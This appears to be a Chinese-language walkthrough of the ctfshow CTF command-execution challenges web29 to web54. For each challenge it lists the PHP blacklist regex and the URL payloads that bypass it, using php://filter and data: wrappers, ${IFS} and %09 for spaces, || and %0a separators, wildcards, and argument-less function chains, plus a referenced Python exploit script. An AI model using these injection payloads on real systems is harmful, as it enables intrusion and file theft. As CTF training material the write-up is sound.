

ctfshow命令执行篇
web29（通配符绕过）
- eval执行PHP代码，过滤了大小写的flag：
1 | ?c=system('ls'); |
web30（反引号执行系统命令）
过滤了大小写的php，system，flag
使用echo，反引号执行命令输出：
/?c=echo ls;
/?c=echo tac f\*;

web31（过滤空格）
过滤了如下字符：
1 | if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)) |
使用echo命令，
对于空格的过滤可以使用%09进行绕过：
/?c=echo%09tac%09f*;
web32（利用文件包含结合读取）
1 | if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)) |
过滤了echo和反引号，echo命令不能用，
使用文件包含结合php://filter协议进行读取flag.php：
1 | get: |
payload:
?c=include$_GET[“a”]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
web33（利用文件包含结合读取）
1 | if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)) |
在上一题的基础上过滤了双引号，直接把payload的双引号去掉即可：
- payload：
?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
web34-36
web34
1 | if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)) |
web35
1 | if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)) |
web36
1 | if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)) |
都使用和33一样的payload：
?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
web37（利用PHP伪协议进行读取，执行命令）
1 |
|
代码和上面的不一样，出现include函数，考虑使用PHP伪协议进行读取，首先考虑data协议，因为可以直接执行命令。
payload:
?c=data: text/plain,
?c=data: text/plain,
- 也可以使用php://input进行post传参：
web38（php短标签）
1 | error_reporting(0); |
在上一题的基础上过滤了php，因此使用data协议，将后面的PHP代码使用短标签进行绕过即可：
payload
?c=data:text/plain,
web39
payload和38一样。
web40（无参数rce-利用PHP函数执行）
1 |
|
- 过滤了%和=等符号，短标签无法使用。
前置知识
- print_r(scandir(‘.’));查看当前目录下的所有文件名
- localeconv() 函数返回一包含本地数字及货币格式信息的数组。
- current() 函数返回数组中的当前元素（单元）,默认取第一个值，和pos()一样
但是这题过滤了引号，不能有参数，找一个代替’.’的东西
print_r(scandir(current(localeconv())));打印出当前目录下文件
具体参考无参数读文件和rce:
https://www.freebuf.com/articles/system/242482.html
解题
- paylaod：
?c=print_r(scandir(current(localeconv())));
打印出当前目录下的文件，可以看到flag.php在倒数第二个，直接用next(array_reverse());
- 使用show_source将文件的内容读取出来：
payload：
/?c=show_source(next(array_reverse(scandir(current(localeconv())))));
web41（或运算-使用脚本解题）
1 |
|
题目过滤了$、+、-、^、~使得异或自增和取反构造字符都无法使用，同时过滤了字母和数字。
留下了一个|，可进行或运算。
我们可以尝试从ascii为0-255的字符中，找到或运算能得到我们可用字符的字符。
脚本分析
- 使用yu师傅的脚本（自己加了一些注释）
1 |
|
从进行或运算的字符中排除掉被过滤的，然后在判断或运算得到的字符是否为可见字符：
dechex() 函数把十进制转换为十六进制。
hex2bin() 函数把十六进制值的字符串转换为 ASCII 字符。
得到一个txt文档。
- 再用python脚本进行命令执行（自己外加了一些注释）
用法 python exp.py
1 | import requests |
- exp.py url 111 222
Sys.argv[ ]其实就是一个列表，里边的项为用户输入的参数，关键就是要明白这参数是从程序外部输入的。
sys.argv == [“exp.py”,”url”,”111”,”222”] #sys.argv是持有4个元素的list对象
sys.argv[0]是代表当前所执行的脚本（exp.py）
sys.argv[1] 为脚本的第一个参数，列表中的第二个元素（url）
len(sys.argv)==4代表当前脚本含有3个参数
解题
yu师傅的脚本
https://wp.ctf.show/d/137-ctfshow-web-web41
web42
1 |
|
代码”>/dev/null 2>&1”的意思是不对输出内容进行回显，我们通过“;”进行截断，回显出flag.
- payload:
ls;
cat flag.php;
web43
1 |
|
这题将;也过滤了，尝试使用管道符绕过，发现||可以，也可以使用换行符%0a进行绕过：
ls||
tac flag.php||
web44
代码”>/dev/null 2>&1”的意思是不对输出内容进行回显，过滤了flag关键字，使用通配符绕过即可。过滤了;，使用||绕过。
- payload:
ls||
tac f||*
web45
代码”>/dev/null 2>&1”的意思是不对输出内容进行回显，过滤了flag关键字，使用通配符绕过即可。过滤了;，使用||绕过。过滤空格：
- 空格过滤的绕过方式：
1 | ${IFS} |
使用%09绕过：
ls||
tac%09f||*
web46
过滤了;|cat|flag|空格|数字|$|*
代码”>/dev/null 2>&1”的意思是不对输出内容进行回显，“;”也被过滤了，我们使用命令分隔符“||”进行截断,过滤了flag,用通配符绕过，也可以使用换行符，多过滤了空格，%09绕过。过滤了*，用“？”代替。
ls|| //ls%0a
tac%09fla?.php|| // tac%09fla?.php%0a
web47
过滤了|cat|flag|空格|$|*|more|less|head|sort|tail和;
但是依然可以使用上一题的payload绕过：
ls|| //ls%0a
tac%09fla?.php|| // tac%09fla?.php%0a
web48-50
使用如上一题的payload。
web51
将%也过滤掉了,使用<>重定向符号进行绕过;对tac的绕过可以加\或者使用nl命令：
- payload:
ta\c<>fla?.php||
web52（读取根目录）
将>也过滤掉了，但是可以使用$，因此空格用${IFS}进行绕过，直接读取：
ta\c${IFS}fla?.php||
发现没有返回结果，查看一下根目录：
ls${IFS}/
对flag进行读取：
?c=nl${IFS}/fla\g||
web53
- system()函数直接对传进来的参数c当做命令执行，过滤了tac,flag,%,*,空格以及很多读取文件的函数：使用通配符绕过
nl${IFS}fla?.php
ta\c${IFS}fla?.php
web54
过滤了;|cat|flag|空格|数字|查看文件命令nl等|`|%|\x09(空格)|\x26(&)|<|>
- 使用grep.在flag.php中查找带有show字符串的一行(因为flag的格式为ctfshow{})
grep****从文件内容查找匹配指定字符串的行：
$ grep “被查找的字符串” 文件名
payload:
1 | ?c=grep${IFS}show${IFS}fl?g.php |